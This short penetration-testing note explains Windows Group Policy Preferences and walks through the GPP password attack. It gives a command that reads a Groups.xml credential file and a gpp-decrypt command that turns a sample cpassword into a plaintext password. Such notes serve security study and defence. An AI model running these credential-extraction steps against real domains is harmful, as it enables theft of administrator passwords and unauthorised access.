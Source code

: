 ## WHAT IS GROUP POLICY PREFERENCES (GPP)?

A Windows feature that enables administrator to manage operating system and application settings. It has the ability to set passwords for the Local Administrator account. Group Policies for account management are stored on the Domain Controller in `Groups.xml` files buried in the SYSVOL folder.

## GPP password attack
Locate `Groups.xml` file and extract `cpassword`
```
cat 'C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml'
```
Decrypt `cpassword`
```
gpp-decrypt 'CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74K eUWc2+BeOVDQ'
MyUnclesAreMarioAndLuigi!!1!
```

